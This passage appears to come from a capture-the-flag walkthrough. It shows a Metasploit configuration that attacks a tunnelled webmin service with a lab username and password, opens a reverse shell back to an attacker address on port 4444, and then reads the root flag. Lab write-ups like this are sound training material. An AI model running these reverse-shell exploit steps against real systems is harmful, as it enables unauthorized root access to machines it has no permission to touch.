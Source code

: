 ![msfconsole](/static/msfconsole.png)

now, let's configure our exploit.

```
set payload cmd/unix/reverse
set PASSWORD videogamer124
set USERNAME agent47
set RHOSTS localhost
set SSL false
set LHOST 10.9.6.194
set LPORT 4444
run
```

if the exploit is successful, we'll get a shell. remember, the reverse ssh tunnel needs to be running for this exploit to work. when you get the shell, upgrade to a proper shell by typing ```shell```. we'll be in the /usr/share/webmin/file directory, and the root flag is stored at /root/root.txt.
